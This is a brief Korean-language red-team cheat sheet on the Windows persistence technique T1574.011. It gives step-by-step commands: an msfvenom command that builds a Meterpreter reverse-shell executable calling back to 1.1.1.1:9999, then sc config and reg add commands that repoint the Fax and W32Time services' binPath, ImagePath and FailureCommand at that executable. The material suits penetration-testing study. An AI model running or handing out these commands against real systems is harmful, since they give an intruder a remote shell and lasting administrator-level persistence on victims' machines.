 # T1574.011 Service Registry Permissions Weakness

Status: Persistence

---

# Summary

- MITRE ATT&CK : Enterprise - Persistence - Hijack Execution Flow - Services Registry Permissions Weakness
- Require Privilege : Administrator Level
- Running Privilege : Administrator Level
- Description : 기존 윈도우 서비스(Fax, Printer 등)로 돌고 있는 것들을 오염시킨다.

---

# How To

## Step 1. 악성 EXE 생성

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=1.1.1.1 LPORT=9999 -f exe > mal.exe
```

## Step 2-1. binPath 변경

```
sc config Fax binPath= "C:\windows\system32\mal.exe"
sc start Fax
```

## Step 2-2. ImagePath 변경

```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time" /v ImagePath /t REG_SZ /d "C:\tmp\mal.exe"
```

- ImagePath : 시스템의 각 서비스에 대한 정보

## Step 2-3. FailureCommand

```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time" /v FailureCommand /t REG_SZ /d "C:\tmp\mal.exe"
sc failure Fax command= "\"c:\Windows\system32\mal.exe\""
```

- 프로세스 종료, 실행 실패시 Command를 변경함

---

# Reference

[Persistence - Page 6 - Penetration Testing Lab](https://pentestlab.blog/category/red-team/persistence/page/6/)